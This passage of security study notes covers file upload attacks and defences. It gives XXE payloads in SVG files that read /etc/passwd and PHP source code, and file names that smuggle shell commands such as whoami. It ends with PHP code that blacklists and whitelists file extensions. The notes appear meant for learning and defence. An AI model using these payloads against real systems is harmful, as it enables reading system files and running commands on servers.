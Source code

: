 

##### XXE Attacks

- fetch files

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

- XXE to read source code in PHP web applications

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```



# Other Upload Attacks

##### Injections in File Name
- `file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`



# Preventing File Upload Vulnerabilities


## Extension Validation


```php
$fileName = basename($_FILES["uploadFile"]["name"]);

// blacklist test
if (preg_match('/^.+\.ph(p|ps|ar|tml)/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// whitelist test
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

- with blacklisted extension =>if the extension exists anywhere within the file name
- with whitelists=>if the file name ends with the extension


## Content Validation
